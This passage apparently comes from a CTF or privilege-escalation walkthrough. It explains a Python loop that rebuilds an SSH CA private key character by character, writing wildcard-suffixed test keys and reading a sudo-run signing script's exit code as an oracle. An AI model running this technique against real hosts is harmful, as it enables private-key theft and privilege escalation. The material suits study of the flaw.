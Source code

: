 ```python

# Call the function
reconstructed_key = reconstruct_ssh_key(header, footer, ba64chars, key_length, sign_key_script, public_key_file, user, principal, serial)
```

Let's analyze it a bit

*   **Main Loop for Finding the Correct Characters:**

    ```python
        while True:
            for char in ba64chars:
                # Construct a test key with *
                testKey = f"{header}\n{''.join(key)}{char}*"
                with open("ca-test", "w") as f:
                    f.write(testKey)
    ```

    * <mark style="color:red;">**`while True`**</mark>: An infinite loop that continues until the correct SSH key is fully reconstructed or no more valid characters are found.
    * <mark style="color:red;">**`for char in ba64chars`**</mark>: Loops through each character in the <mark style="color:red;">**`ba64chars`**</mark> string (which contains all possible base64 characters: A-Z, a-z, 0-9, +, /, =).
    * <mark style="color:red;">**`testKey = f"{header}\n{''.join(key)}{char}*"`**</mark>: Constructs a temporary SSH key (<mark style="color:red;">**`testKey`**</mark>) for validation. This key consists of:
      * The <mark style="color:red;">**`header`**</mark> (e.g., "-----BEGIN OPENSSH PRIVATE KEY-----").
      * The characters in `key` that have already been identified as correct.
      * The current character being tested (<mark style="color:red;">**`char`**</mark>).
      * A <mark style="color:red;">**`*`**</mark> at the end to indicate that the key is still incomplete.

    #### The Role of <mark style="color:red;">`*`</mark>:

    * The <mark style="color:red;">**`*`**</mark> character is added at the end of the temporary key to signify that the key is incomplete. This is crucial because:
      * It helps the script understand that the key is still being constructed, allowing the testing of individual characters.
      * The <mark style="color:red;">**`*`**</mark> ensures that the script doesn't prematurely validate an incomplete key as correct.
*   **Running the Script to Validate the Key:**

    ```python
                proc = subprocess.run(
                    ["sudo", sign_key_script, "ca-test", public_key_file, user, principal, serial],
                    capture_output=True
                )

                # If matched, Error code 1
                if proc.returncode == 1:
                    key.append(char)
                    # Add a newline every 70 characters
                    if len(key) > 1 and (len(key) - line) % 70 == 0:
                        key.append("\n")
                        line += 1
                    break
            else:
                break
    ```
